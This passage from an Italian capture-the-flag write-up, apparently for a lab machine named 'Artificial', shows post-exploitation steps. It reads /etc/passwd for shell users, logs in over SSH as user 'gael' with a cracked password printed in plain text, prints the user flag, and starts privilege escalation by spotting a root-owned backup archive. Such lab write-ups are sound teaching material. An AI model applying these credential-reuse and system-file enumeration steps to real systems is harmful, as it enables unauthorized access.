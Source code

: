 Dalla macchina vittima si recuperano gli utenti che hanno accesso alla shell:

```bash

app@artificial:~$ grep -E .*sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
gael:x:1000:1000:gael:/home/gael:/bin/bash
app:x:1001:1001:,,,:/home/app:/bin/bash

```

Le password craccate vengono provate per accedere tramite **SSH** come utente **gael**.

```bash

$ ssh gael@10.x.x.x

```

Si ottiene l'accesso con `gael:mattp005numbertwo` e si recupera la **user.txt**:

```bash

gael@artificial:~$ ls
user.txt

gael@artificial:~$ cat user.txt 
eb71317a4cb015ab49d5da729f718c13

```

## Privilege Escalation

Si prosegue con l'analisi dell'utente *gael* e si individua il file `backrest_backup.tar.gz` alla quale *gael*  puo' accedere ed il cui proprietario e' **root**.

![group](./img/15-group.png)

Si ispeziona l'archivio.
